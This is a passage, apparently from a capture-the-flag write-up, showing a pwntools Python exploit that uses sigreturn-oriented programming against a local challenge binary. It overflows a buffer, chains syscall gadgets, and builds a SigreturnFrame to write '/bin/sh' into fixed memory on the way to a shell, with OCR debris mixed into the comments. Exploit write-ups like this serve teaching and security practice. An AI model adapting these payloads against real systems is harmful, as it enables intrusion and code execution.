 ok now we put all of it together and add some informations whats going on ...
and i addet some breaks for better debugging.

Here is my Exploit  
```  
#!/usr/bin/env python3  
from pwn import *

fname = './some'  
ip = ''#change this  
port = ''#change this

context.arch = 'amd64'  
elf = ELF(fname)  
context.update(os='linux', arch='amd64')  
x = 1

LOCAL = True

if LOCAL:  
   r = process(fname,aslr=True)  
else:  
   r = remote(ip, port)

rl = lambda : r.recvline()  
sl = lambda x : r.sendline(x)  
inter = lambda : r.interactive()

def pwn():

#Stage 1 writes /bin/sh\x00 into memory at 0x40203b + 792 = 0x402353

 frame1 = SigreturnFrame(kernel='amd64')  
 frame1.rip = 0x40100e           #rip = addr of gadget(syscall; ret;)  
 frame1.rdi = 0x0            #rdi = 0 read from stdin  
 frame1.rsi = 0x40203b           #rsi = arg1 = where we want to save the input
0x0000000000402000 0x0000000000403000 0x0000000000002000 rw-
/root/ctf/some/some since only Aslr is enabled we choose this sctions as it is
not affected by aslr only by PIE which is not active so these addresses will
not get randomized.  
 frame1.rdx = 0x320            #how much bytes we can pass  
 frame1.rax = 0x0              #rax = syscall read(rdi,rsi,rdx) this reads our
input(stdin) and stores it at rsi & rsp since they are on the same addres now  
 frame1.rsp = 0x40203b         #set rsp  
 frame1.rbp = 0x402043         #set rbp

 #1st input  
 payload1 = b'A'*500             # fill the buffer  
 payload1 += b'\x00'*8           # fill the rbp  
 payload1 += p64(0x401006)  
 payload1 += p64(0x40100e)  
 payload1 += bytes(frame1)       #places the sigret frame on the stack for the
sigreturn() that gets poped into the registers  
 sl(payload1)

log.info('Frame for Sigreturn created')  
log.info('initial Input send!')  
log.info('1# we fill the buffer')  
log.info('2# we set our gadgets')  
log.info('3# we place the SigreturnFrame')

 input("Press Enter to continue...")  
log.info('4# our 2nd input from the 1st ret sets rax=0xf which is the argument
for syscall sigret()')  
```